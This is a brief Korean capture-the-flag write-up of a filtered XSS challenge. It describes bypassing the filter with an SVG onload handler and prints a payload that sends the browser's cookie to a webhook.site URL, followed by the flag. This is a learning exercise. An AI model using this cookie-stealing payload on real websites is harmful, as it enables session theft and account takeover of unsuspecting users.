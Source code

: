 # XSS (Cross-site scripting)
사이트에 접속하면 vuln(xss) page와 flag 페이지가 나온다.

vuln(xss) page의 param이 
`<script>alert(1)</script>`으로 되어있는데 alert이 뜨지 않는 걸로 봐서 xss가 필터링 된 문제구나, 라고 생각하고 xss 우회법을 검색하여 `<svg/onload="alert(1)">`라고 적었는데 alert이 나오길래 이 코드를 이용하여 풀었다.

다만 소스를 보니 local에 있는 브라우저 cookie에 flag가 저장된다는 부분이 있었다.

그래서 flag 페이지를 이용해 로컬에서 외부 서버로 cookie 값을 전송해주는 코드를 넣어 solve 하였다.

# Code
```<svg/onload=location["href"]="https://webhook.site/webhook-id/?flag="+document["cookie"]>```

# Flag
flag{alert(/correct!/.source)}